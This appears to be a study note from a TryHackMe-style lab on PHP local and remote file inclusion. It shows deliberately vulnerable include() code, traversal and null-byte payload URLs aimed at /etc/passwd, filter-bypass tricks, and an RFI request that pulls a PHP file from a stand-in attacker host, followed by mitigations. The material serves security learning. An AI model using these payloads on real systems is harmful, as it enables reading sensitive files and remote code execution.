 # File Inclusion Vulnerabilities

## 🔍 Overview
- File Inclusion vulnerabilities allow attackers to include files, usually through the web browser.
- Two main types:
  - Local File Inclusion (LFI): Include files already on the server.
  - Remote File Inclusion (RFI): Include files from remote locations.
- Can also exploit Directory Traversal to access sensitive files outside the web root.

## 🧩 Why File Inclusion Happens
- Caused by unsanitized user input in file handling functions (e.g., include, require, file_get_contents).
- Often found in PHP and similar languages when input is not validated.

## ⚠️ Risks
- Read sensitive files like /etc/passwd.
- Leak credentials or system information.
- Gain Remote Code Execution (RCE) when combined with write access or RFI.
- Expose SSH keys, mail, logs, etc.

## 🔐 Common Targeted OS Files
| File                          | Description                                    |
|------------------------------|------------------------------------------------|
| /etc/passwd                  | User account info                              |
| /etc/shadow                  | Password hashes                                |
| /var/log/apache2/access.log  | Web server logs                                |
| /proc/version                | Kernel version info                            |
| C:\boot.ini                 | Boot config on Windows                         |


## 🧪 Types of File Inclusion Exploits

1. Basic LFI (No Directory Constraints)
<?php 
    include($_GET["lang"]);
?>
PoC:
http://webapp.thm/index.php?lang=/etc/passwd

2. LFI with Directory Restriction
<?php 
    include("languages/" . $_GET['lang']); 
?>
PoC:
http://webapp.thm/index.php?lang=../../../../etc/passwd

3. Black Box Testing with Error Disclosure
Error Hint:
include(languages/THM.php);
PoC (Path Traversal):
http://webapp.thm/index.php?lang=../../../../etc/passwd
PoC with Null Byte (for older PHP < 5.3.4):
http://webapp.thm/index.php?lang=../../../../etc/passwd%00

4. Bypassing Filters (Keyword Filtering)
Tricks:
- Use /etc/passwd/. (current directory trick)
- Use /etc/passwd%00 (null byte)
- Replace ../ with ....// as PHP filter only matches and replaces the first subset string ../ it finds and doesn't do another pass
- Eg: http://webapp.thm/index.php?lang=....//....//etc/passwd

5. Forced Directory Prefix
PoC:
http://webapp.thm/index.php?lang=languages/../../../../etc/passwd

## 🌐 Remote File Inclusion (RFI)
- Remote File Inclusion (RFI) is a technique to include remote files into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the allow_url_fopen option needs to be on.
- The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

### How it works
The attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message Hello THM, <?PHP echo "Hello THM"; ?>

- First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. 
- If there is no input validation, then the malicious URL passes into the include function. 
- Next, the web app server will send a GET request to the malicious server to fetch the file. 
- As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

## 🛡️ Mitigations
- Sanitize and validate all user input.
- Disable allow_url_fopen, allow_url_include.
- Use whitelisting for allowed files/paths.
- Keep PHP and frameworks up to date.
- Turn off verbose error messages in production.
- Deploy a Web Application Firewall (WAF).
